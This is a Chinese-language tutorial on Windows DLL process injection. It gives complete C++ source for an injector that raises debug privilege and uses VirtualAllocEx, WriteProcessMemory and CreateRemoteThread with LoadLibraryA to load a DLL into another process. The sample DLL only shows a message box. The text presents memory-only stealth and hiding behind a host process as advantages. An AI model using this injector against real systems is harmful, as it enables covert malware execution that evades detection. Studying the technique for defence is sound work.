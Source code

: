 # Process Injection  

------------------------------  

### 0x00 前言  
进程注入是指：让一个线程在别的进程中执行。  

利用 DLL 文件，在 DLL 文件第一次被装载进进程时，会执行 DllMain 中的 DLL\_PROCESS\_ATTACH 下的代码。  

进程注入的优点是：  

1. 需要插入到远程进程的内存空间是通过virtualAllocEx这样的函数分配的，只存在于内存中，如果不是内存查杀，很难发现。
2. 可以复用宿主进程的名称、端口，更加隐蔽  



### 0x01 进程注入流程    
进程注入的流程：  

1. 将系统权限提升到Debug模式，因为只有debug模式才能打开远程进程的handle。(`EnableDebugPrivilege`)
2. 打开远程进程。(`OpenProcess`)
3. 将 DLL 文件的路径分配到目标内容空间中。(`VirtualAllocEx`)
4. 将DLL文件内容写入到远程进程。(`WriteProcessMemory`)
5. 在宿主进程中启动新线程完成插入。(`CreateRemoteThread`)


>上面提到的函数到 MSDN 查看详细的使用方法。


### 0x02 程序  
恶意的 DLL 文件代码： 
`DllHeader.h`:  

	#ifndef dllDemoHeader	#define dllDemoHeader	#ifdef DLLDEMO	#define EXPOETS_DEMO _declspec(dllexport)	#else	#define EXPORTS_DEMO _declspec(dllimport)	#endif	extern "C" EXPORTS_DEMO int add(int a, int b);	#endif
	
`Main`:  

	#include <windows.h>	#include "DllHeader.h"	//dll Entry Point Function	bool APIENTRY DllMain(HANDLE hModule, DWORD dwReason, void* lpReserved) {		switch(dwReason) {			//it can be executed when first time loaded 			case DLL_PROCESS_ATTACH:				MessageBox(NULL, TEXT("Hello DLL~"), TEXT("Title"), MB_OK);				break;			//			case DLL_THREAD_ATTACH:				break;			//			case DLL_THREAD_DETACH:				break;			//			case DLL_PROCESS_DETACH:				break;		}		return true;	}	int add(int a, int b) {		return a + b;	}




进程插入代码： 

	/**	 * Description: This is example for process inject.	 *	Author: xx	 * Time: 2017.2.22	 * Version: 0.1	 */	#include <iostream>	#include <windows.h>	using namespace std;	//	int EnableDebugPrivilege(const char* name);	int main(int argc, char* argv[]) {		char filePath[MAX_PATH];		//MAX_PATH是C语言运行时库中通过#define指令定义的一个宏常量，它定义了编译器所支持的最长全路径名的长度。		HANDLE hRemoteProcess;		char* pszLibFileRemote;		bool retVal;		//Adjust privilege "DEBUG"		EnableDebugPrivilege(SE_DEBUG_NAME);		GetCurrentDirectory(MAX_PATH, filePath);		strcat(filePath, "\\DllTest.dll");		cout << filePath << endl;		//打开目标进程		hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, 284);		if(hRemoteProcess == NULL) {			cout << "OpenProcess() Failed" << endl;		}		//为 dll 路径分配内存空间		pszLibFileRemote = (char*)VirtualAllocEx(hRemoteProcess, NULL, strlen(filePath)+1, MEM_COMMIT, PAGE_READWRITE);		if(pszLibFileRemote == NULL) {			cout << "VirtualAllocEx() Failed" << endl;		}		//将 dll 路径写入内存空间		retVal = WriteProcessMemory(hRemoteProcess, pszLibFileRemote, filePath, strlen(filePath)+1, NULL);		if(retVal == 0) {			cout << "WriteProcessMemory() Failed" << endl;		}		//得到 LoadLibraryA 的内存地址		PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");		if(pfnStartAddr == NULL) {			cout << "GetProcAddress() Failed" << endl;		}		//创建子进程		HANDLE hRemoteThread;		hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);		if(hRemoteThread == NULL) {			cout << "CreateRemoteThread() Failed" << endl;		}		else {			cout << "Inject Success" << endl;		}		CloseHandle(hRemoteProcess);		CloseHandle(hRemoteThread);		system("pause");		return 0;	}	int EnableDebugPrivilege(const char* name) {		HANDLE hToken;		TOKEN_PRIVILEGES tp;		LUID luid;		OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, & hToken);		LookupPrivilegeValue(NULL, name, &luid);		tp.PrivilegeCount = 1;		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;		tp.Privileges[0].Luid = luid;		if(AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {			cout << "AdjustTokenPrivileges Success" << endl;		}		return 0;	}




</br> 

-------------------------------
References: 
cnblogs.茄子写字板:  <http://www.cnblogs.com/handt/archive/2012/08/09/2627277.html>  
淡泊明志，宁静致远:  <http://andylin02.iteye.com/blog/459483>  
</br>
Author: xx  
Time: 2017.2.22